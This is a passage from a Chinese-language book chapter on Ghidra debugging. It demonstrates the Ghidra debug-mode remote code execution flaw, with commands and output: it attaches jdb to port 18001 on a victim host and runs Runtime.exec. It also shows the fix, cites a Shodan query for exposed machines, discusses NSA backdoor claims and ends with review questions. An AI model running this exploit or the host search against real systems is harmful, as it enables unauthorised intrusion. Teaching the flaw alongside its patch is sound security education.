PID:    3828
```

然后，我们使用`netstat`列出与其相关的活动连接：

```
C:\Users\virusito>netstat -ano | FINDSTR 3828
```

```
  TCP    127.0.0.1:18001    0.0.0.0:0    LISTENING    3828
```

如您在之前的列表中所见，已向全世界打开了一个监听连接，如`0.0.0.0:0`所示。然后，我们可以从任何地方建立连接。使用以下代码，替换`VICTIM_IP_HERE`为受害者的 IP 地址：

```
C:\Users\virusito>jdb -connect com.sun.jdi.SocketAttach:port=18001,hostname=VICTIM_IP_HERE
```

```
Set deferred uncaught java.lang.Throwable
```

```
Initializing jdb ...
```

```
>
```

然后，查找一个可以运行的类，该类如果已经建立，可能很快就会触发断点：

```
>classes
```

```
...
```

```
javax.swing.RepaintManager$DisplayChangedHandler
```

```
javax.swing.RepaintManager$PaintManager
```

```
javax.swing.RepaintManager$ProcessingRunnable
```

```
javax.swing.RootPaneContainer
```

```
javax.swing.ScrollPaneConstants
```

```
...
```

当重绘窗口时，`javax.swing.RepaintManager$ProcessingRunnable`将被触发。这是一个非常好的候选项。让我们通过使用`stop`命令在它上面添加一个断点：

```
> stop in javax.swing.RepaintManager$ProcessingRunnable.run()
```

```
Set breakpoint javax.swing.RepaintManager$ProcessingRunnable.run()
```

然后，断点很快被触发：

```
Breakpoint hit: "thread=AWT-EventQueue-0", javax.swing.RepaintManager$ProcessingRunnable.run(), line=1.871 bci=0
```

在这种情况下，您可以执行任何任意命令。我将通过`calc.exe`执行一个计算器，但您可以将其替换为任何命令注入有效负载：

```
AWT-EventQueue-0[1] print new java.lang.Runtime().exec("calc.exe")
```

```
new java.lang.Runtime().exec("calc.exe") = "Process[pid=9268, exitValue="not exited"]"
```

在这个案例中，Windows 计算器程序在被黑客攻击的计算机上执行。我们知道攻击是成功的，因为我们获得了反馈，表明在受害者的机器上创建了一个新进程，进程 ID 为`9268`。

## 修复 Ghidra RCE 漏洞

为了修复漏洞，`DEBUG_ADDRESS`变量被设置为`127.0.0.1:18001`，这样可以将传入的调试连接限制为`localhost`：

```
if "%DEBUG%"=="y" (
```

```
    if "%DEBUG_ADDRESS%"=="" (
```

```
        set DEBUG_ADDRESS=127.0.0.1:18001
```

```
    )
```

手动审查这些行可以让你自己检查给定的 Ghidra 版本是否容易受到此攻击。

## 寻找易受攻击的计算机

Ghidra RCE 漏洞是一个小而极为重要的错误，因为易受攻击的计算机可以通过一种直接的方式被定位；例如，通过查询 Shodan（你需要一个 Shodan 账户并且登录，否则这个链接的结果将无法访问）：[`www.shodan.io/search?query=port:18001`](https://www.shodan.io/search?query=port:18001)。

正如你所知道的，这个漏洞可能并不是**国家安全局**（**NSA**）给程序留下的后门。NSA 有自己的零日漏洞来入侵计算机，肯定不需要为了入侵全球人民的计算机而在自己的程序中插入后门。事实上，这样做对它的声誉来说将是一个非常糟糕的举动。

重要提示

在使用调试模式时，确保你使用的是修补版本的 Ghidra，因为使用易受攻击的 Ghidra 版本存在被黑客攻击的高风险。

# 总结

在本章中，你学习了如何使用 GhidraDev 插件同步 Eclipse 和 Ghidra，以便进行开发和调试。你学到的不仅是调试脚本的技能，还能调试任何 Ghidra 源代码行，使你能够独立探索这个强大的框架的内部机制。

我们还了解了 Ghidra RCE 漏洞的工作原理，如何修补它，如何利用它，以及为什么它可能不是 NSA 的后门。在下一章，我们将介绍用于从源代码自由扩展 Ghidra 的 Ghidra 插件。

# 问题

1.  是否可以使用源代码而非字节码调试已编译的 Ghidra 版本？

1.  是否可以使用除 Eclipse 以外的 IDE 调试 Ghidra？其他 IDE 是否受支持？

1.  你认为 NSA 监视 Ghidra 用户的可能性大吗？你认为这可能包括后门吗？

# 深入阅读

你可以参考以下链接，获取更多有关本章涉及主题的信息：

+   *JVM 语言入门*，*Vincent van der Leun*，2017 年 6 月：[`subscription.packtpub.com/book/application_development/9781787127944`](https://subscription.packtpub.com/book/application_development/9781787127944)

+   无需 Eclipse 即可开发 Ghidra：[`reversing.technology/2019/11/18/ghidra-dev-pt1.html`](https://reversing.technology/2019/11/18/ghidra-dev-pt1.html)

+   *完整的 Metasploit 指南*，*Sagar Rahalkar 和 Nipun Jaswal*，2019 年 6 月：[`subscription.packtpub.com/book/security/9781838822477`](https://subscription.packtpub.com/book/security/9781838822477)
